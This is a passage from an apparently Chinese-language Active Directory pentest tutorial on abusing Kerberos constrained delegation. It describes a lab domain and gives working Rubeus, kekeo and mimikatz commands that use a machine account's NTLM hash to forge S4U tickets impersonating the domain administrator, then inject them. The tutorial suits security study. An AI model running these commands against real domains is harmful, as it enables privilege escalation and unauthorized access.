 (7) 如果请求中包含 PAC，则 KDC 通过检查 PAC 的签名数据来验证 PAC ，如果 PAC 有效或不存在，则 KDC 返回 ST2 给 service1，但存储在 ST2 的 cname 和 crealm 字段中的客户端身份是用户的身份，而不是 service1 的身份。

(8) service1 使用 ST2 以用户的名义向 service2 发送请求，并判定用户已由 KDC 进行身份验证。

(9) service2 响应步骤 8 的请求。

(10) service1 响应用户对步骤 5 中的请求。

### Attack

**如果我们可以攻破配置约束委派的服务账户(获取密码/Hash)，我们就可以模拟域内任意用户(如 domain\administrator) 并代表其获得对已配置服务的访问权限（获取 TGS 票据）。**

此外，我们不仅可以访问约束委派配置中用户可以模拟的服务，**还可以访问使用与模拟帐户权限允许的任何服务。**（因为未检查 SPN，只检查权限）。比如，如果我们能够访问 CIFS 服务，那么同样有权限访问 HOST 服务。注意如果我们有权限访问到 DC 的 LDAP 服务，则有足够的权限去执行 DCSync。

> 如果 AD 中将用户标记为“帐户敏感且无法委派”，则无法模拟其身份。

实验环境：

- Domain: ins.z

- Domain Controller

  - Windows Server 2012 R2, 2012dc.ins.z, 192.168.1.12

- Domain Computer

  - Windows Server 2008 R2, iis-8.ins.z, 192.168.1.8
  - Windows 10 Pro, win10.ins.z, 192.168.1.10
  - Windows 7 Pro, win7.ins.z, 192.168.1.7

在 DC 上为 IIS-8 机器账号设置约束委派，仅信任此计算机来委派指定的服务，可由此账户提供委派凭据的服务为 `cifs\win7.ins.z`.

当我们掌握了 `IIS-8$` 的 NTLM Hash 后，可通过 kekeo/Rubeus 进行认证服务器交换获取票据授予票据 TGT。

```powershell
Rubeus.exe asktgt /user:IIS-8$ /rc4:bd3d734cdaec88d806c2f8458eb6c357 /outfile:tgt_iis-8.kirbi
# [+] Ticket successfully imported!
kekeo.exe "tgt::ask /user:IIS-8$ /domain:ins.z /ntlm:bd3d734cdaec88d806c2f8458eb6c357" "exit"
# Ticket in file 'TGT_IIS-8$@INS.Z_krbtgt~ins.z@INS.Z.kirbi'
```

进而通过约束委派机器账户 IIS-8$ 的 TGT 来伪造 S4U 请求，以 ins\administrator 的用户身份请求访问 cifs/win7.ins.z:

```powershell
kekeo.exe tgs::s4u /tgt:TGT_IIS-8$@INS.Z_krbtgt~ins.z@INS.Z.kirbi /user:administrator@ins.z /service:cifs/win7.ins.z
# > Ticket in file 'TGS_administrator@ins.z@INS.Z_IIS-8$@INS.Z.kirbi' -> S4U2self
# > Ticket in file 'TGS_administrator@ins.z@INS.Z_cifs~win7.ins.z@INS.Z.kirbi' -> S4U2proxy
```

最后通过 mimikatz/Rubeus 导入用于访问 cifs/win7.ins.z 的 TGS 即可：

```powershell
mimikatz.exe kerberos::ptt TGS_administrator@ins.z@INS.Z_cifs~win7.ins.z@INS.Z.kirbi
Rubeus.exe ptt /ticket:TGS_administrator@ins.z@INS.Z_cifs~win7.ins.z@INS.Z.kirbi
```

访问 cifs/win7.ins.z 进行验证：

